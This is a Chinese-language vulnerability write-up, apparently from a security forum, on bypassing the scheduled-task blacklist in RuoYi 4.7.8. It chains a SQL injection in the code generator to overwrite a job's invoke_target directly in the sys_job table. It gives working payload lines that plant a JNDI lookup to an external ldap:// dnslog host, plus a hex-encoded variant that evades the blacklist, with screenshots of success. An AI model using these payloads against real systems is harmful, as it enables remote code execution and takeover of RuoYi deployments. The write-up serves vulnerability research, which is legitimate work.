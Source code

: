 4.7.8（最新版）
----------

依旧是没办法绕过黑白名单的限制。之前我们大概分析了一下定时任务的创建。对**调用目标字符串**过滤是在定时任务创建时进行的

审计之后可以看到，对目标字符串的过滤只发生在增加、修改计划任务时

![image-20240306214236876](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-1b3a96cec567323c973654b5c2105c3f0d6b78a8.png)

创建后的定时任务信息存储在**sys\_job**表中

![image-20240306214001345](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-420861f7e4970dce92490b787be792dd09c39a3b.png)

结合4.7.5 版本下的sql注入漏洞，直接修改表中的数据  
参考：[https://gitee.com/y\_project/RuoYi/issues/I65V2B](https://gitee.com/y_project/RuoYi/issues/I65V2B)

在`com.ruoyi.generator.controller.GenController#create`

![image-20240306221326697](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-3ad6683a45b3fed6b9c63984918121a1a1fa66ec.png)

这块直接调用了`genTableService.createTable()`,咱直接跟进去看看

![image-20240306221433954](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-14a114543bd4fb72440c37a4e40b2a76e30d686f.png)

Mapper语句：

![image-20240306221510785](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-279867d0cbdd8be4f2ecaefc7fa85061b1e995c2.png)

接下来创建一个定时任务调用这个类，直接从sys\_job表中把某一个定时任务调用目标字符串(invoke\_target字段)改了

先谈个dnslog试试

```php
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'javax.naming.InitialContext.lookup('ldap://xcrlginufj.dgrh3.cn')' WHERE job_id = 1;')
```

但会触发黑名单

![image-20240306222714229](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-3572483765e5676a68ded83d84afa0b2673e496a.png)

由于是执行sql语句，直接将value转为16进制即可

![image-20240306222803488](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4e3b26535f30ef0508858f3d4defcbd08a7966eb.png)

```php
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7863726c67696e75666a2e64677268332e636e2729 WHERE job_id = 1;')
```

可以成功创建  
![image-20240306222855973](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-aa602bfe6b5639d2e2985db70bc2601c74efe230.png)

运行后任务1的**调用目标字符串**也被成功修改
